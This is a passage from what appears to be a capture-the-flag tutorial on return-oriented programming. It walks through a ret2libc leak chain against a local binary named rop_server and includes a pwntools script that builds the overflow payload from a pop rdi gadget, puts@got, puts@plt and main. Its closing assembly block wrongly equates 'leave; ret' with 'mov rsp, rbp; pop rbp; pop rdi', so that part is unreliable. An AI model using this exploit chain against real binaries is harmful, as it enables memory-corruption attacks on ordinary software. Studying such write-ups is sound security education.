   `pop rdi; ret` suits our purpose perfectly. remember we control the stack, hence we control was will be poped into rdi

  
  So Let's go over our exploit again

  - we control return pointer; and we point it to pop rdi
  - we set the stack to the value we want in rdi ; puts@got 
  - once pop rdi returns it gets return address from rsp which we control; where puts@plt awaits
  - the instance puts@plt is called , its argument (rdi), will already contain libc puts address , hence leaking our libc address of puts
  - then we restart the binary by setting the next ret's rsp as the *main*'s address
  
  once we restart the binary to read in new input for our second payload


Building our exploit to this point


```python
from pwn import *

# context.log_level = 'debug'

offset = b"A" * 72 

rop = ELF("./rop_server")

pop_rdi = p64(0x4011f7) # our rdi gadget 
puts_got = p64(rop.got['puts'])   # puts@got
puts_plt = p64(rop.plt['puts'])   # puts@plt
main_func = p64(0x401395)


print(hex(rop.got['puts']))
print(hex(rop.plt['puts']))



payload = offset + pop_rdi + puts_got + puts_plt + main_func
```

This will send in 72 bytes of 'A's to fill the buffer end everything until the return address, then it will replace the return address with the address of pop_rdi, it continues by filling the next 8 bytes with the value we want in rdi, then the next 8 bytes with the address we want to run after pop_rdi returns, and finally the address of the main function so that the binary restarts .

This chain is facinating right, i follow it by explicitly following and  replacing *leave;ret* with its equivalent instructions

```asm
# leave; ret
mov rsp, rbp
pop rbp;
pop rdi;
```
